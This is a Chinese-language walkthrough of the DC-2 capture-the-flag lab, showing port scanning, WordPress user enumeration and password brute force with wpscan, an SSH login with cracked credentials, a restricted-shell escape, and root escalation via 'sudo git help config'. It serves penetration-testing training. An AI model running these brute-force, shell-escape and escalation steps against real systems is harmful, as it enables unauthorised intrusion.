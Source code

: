 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-2（192.168.1.10）


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.10 -p-
```

![image-20220110135337058.png](../../_img/06-靶场实践/1652256082063-a1471140-047f-476a-b279-1b5e885bf8e0.png)

可以看到开放了80端口HTTP服务，7744端口SSH服务


## flag1

访问HTTP服务，在页面发现flag1

![image-20220110135537164.png](../../_img\06-靶场实践/1652256089511-7ada5468-5c38-41e4-9ba6-2f4e9f9d4ca6.png)


## flag2

flag1提示我们`Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.`那么我们就提示使用cewl来生成字典

[什么是cewl？点这里](https://www.codercto.com/a/44828.html)

```
cewl dc-2 > password
```

![image-20220110135843819.png](../../_img\06-靶场实践/1652256100054-63359d9a-f1f9-4147-8bb9-0f68892e628e.png)

有字典就想到爆破，提到爆破就想到后台，对网站进行目录扫描

![image-20220110140801697.png](../../_img\06-靶场实践/1652256102983-f45ab646-43a0-4dc7-8e59-3219d5939e6e.png)

在浏览网站的同时我们也可以发现网站是使用WordPress搭建的

![image-20220110140934363.png](../../_img\06-靶场实践/1652256107500-9411b031-4fd6-430f-bbd6-f0c3bc13c07e.png)

wpscan是专门扫描检测wordpress搭建的工具来查看是否存在已知漏洞，使用wpscan进行扫描

[什么是wpscan？点这里](https://blog.csdn.net/qq_43168364/article/details/112132186)

wordpress信息扫描

```
wpscan --url dc-2
```

扫描出wordpress的版本，目标IP等信息

![image-20220110141539982.png](../../_img\06-靶场实践/1652256111275-06893757-73df-435e-a819-c8684396989c.png)

使用wpscan进行用户枚举

```
wpscan --url dc-2 -e u
```

![image-20220110141646806.png](../../_img\06-靶场实践/1652256115247-4ddbaa7f-7889-4baa-9d6a-eb6cc543dbc6.png)

成功得到admin、jerry、tom三个账户，创建一个users文件将用户名存入，并使用前面得到的password进行爆破

```
wpscan --url dc-2 -U users -P password
```

![image-20220110142157641.png](../../_img\06-靶场实践/1652256118725-9aa0a14f-6a76-4db0-81da-b6a2da45693a.png)

```
jerry / adipiscing
tom / parturient
```

得到jerry和tom的密码，登录后台，找到flag2

![image-20220110142351288.png](../../_img\06-靶场实践/1652256122170-1f96f2b7-434c-4a64-a503-6f99e0eaedea.png)


## flag3

flag2提示我们`If you can't exploit WordPress and take a shortcut, there is another way.`找另一个突破口，在前面我们扫描出7744端口SSH服务，尝试登录。

```
ssh tom@192.168.1.10 -p 7744
```

成功使用tom账户登录并找到flag3

![image-20220110143224280.png](../../_img\06-靶场实践/1652256127489-2fd0d389-09aa-43f4-8965-6076e36381a0.png)

查看flag3

![image-20220110143530438.png](../../_img\06-靶场实践/1652256130710-b1d1a488-6711-470c-8576-9f78d7a48021.png)

可以看到使用了rbash(restricted bash，即受限制的 bash。其可以用作中转服务器，或者仅使用 ssh 来访问网页等等)来限制可以使用的命令。尝试绕过rbash

```
BASH_CMDS[a]=/bin/bash
a
/bin/bash
export PATH=PATH:/sbin:/bin
```

再次查看flag3

![image-20220110144754222.png](../../_img\06-靶场实践/1652256134064-0d8b4ff9-24df-415d-b156-7219bece19a3.png)

成功得到flag3


## flag4

flag3提示我们`Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.`可怜的老汤姆总是追杰瑞，根据这句话想到flag4可能是在jerry目录里面

![image-20220110145205733.png](../../_img\06-靶场实践/1652256137511-472f537c-d03b-48bf-864d-000341688afe.png)

成功得到flag4


## final-flag

通过查看/etc/passwd文件发现jerry用户拥有正常的bash

![image-20220110145959070.png](../../_img\06-靶场实践/1652256140662-83620463-e9c5-407f-9c8f-885aefc7bd54.png)

切换到jerry用户并尝试提权

![image-20220110150131798.png](../../_img\06-靶场实践/1652256143809-1e42780b-e2eb-4666-9cf1-eeeda43e85d8.png)

提权失败，但是我们可以无密码使用root权限的命令，使用[git提权](https://gtfobins.github.io/gtfobins/git/)

输入命令`sudo git help config`之后直接在出现的help界面，输入 `!/bin/bash`，成功提权

![image-20220110150747962.png](../../_img\06-靶场实践/1652256147381-4ba75de9-1344-46fe-b760-478e97c06b42.png)

![image-20220110150813588.png](../../_img\06-靶场实践/1652256150056-bb1cf5cd-3f00-4a24-b073-75e2c86e5050.png)

成功得到root权限

在root根目录找到final-flag

![image-20220110150932679.png](../../_img\06-靶场实践/1652256157210-ee7a6f42-0a05-4407-ab78-677f9b022781.png)
